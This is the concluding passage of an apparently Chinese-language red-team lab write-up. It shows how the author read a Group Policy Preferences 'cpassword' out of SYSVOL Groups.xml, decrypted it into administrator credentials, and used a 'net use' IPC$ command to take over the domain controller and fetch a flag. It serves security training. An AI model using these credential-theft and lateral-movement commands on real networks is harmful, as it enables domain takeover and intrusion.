 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220316101254.png)  
获取到groups.xml文件，打开获取到cpassword字段

    
    
    type \\redteam.red\SYSVOL\redteam.red\Policies\{B6805F5A-614E-4D32-9C2B-7AC2B6798080}\Machine\Preferences\Groups\Groups.xml

  
![]()  
利用gpprefdecrypt.py获取到域控密码“cpassword”字段，得到

    
    
    administrator/Admin12345

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220316101255.png)

## IPC横向访问域控获取flag

  * IPC横向IPC是专用管道，可以实现对远程计算机的访问，需要使用目标系统用户的账号密码，使用139、445端口
  * 回到weblogic被控主机cs执行以下命令

    
    
    shell net use \\10.10.10.8\ipc$ "Admin12345" /user:redteam.red\administrator

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220316101256.png)

  

  * 至此可以接管域控，以administrator权限执行命令。

  * 访问域控上的资源，获取 flag.txt  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220316101257.png)

## 总结

域内提供了三台主机，还有一台ms17010的主机没有用上，当然目前的环境跟实战环境也是有一些出入，比如按个人习惯cs上线后肯定是先想办法看能不能开3389以及如何规避杀软，这里知道环境网络结构直接奔着目标去了，所以一切比较顺利。根据靶场描述，使用其他思路比如约束委派或者非约束委派都可接管域控,感兴趣的可以尝试下。另外再次感谢作者提供的靶场。

## 原文链接

从外网 Weblogic 打进内网，再到约束委派接管域控  
[https://mp.weixin.qq.com/s/dcYbIfLwN-
Aw0Z9XxQSGkQ](https://mp.weixin.qq.com/s?__biz=MzkxNDEwMDA4Mw==&mid=2247488950&idx=1&sn=48d93f1fac38eae99cc4e78474eb557c&scene=21#wechat_redirect)  
  

E

N

D

  

  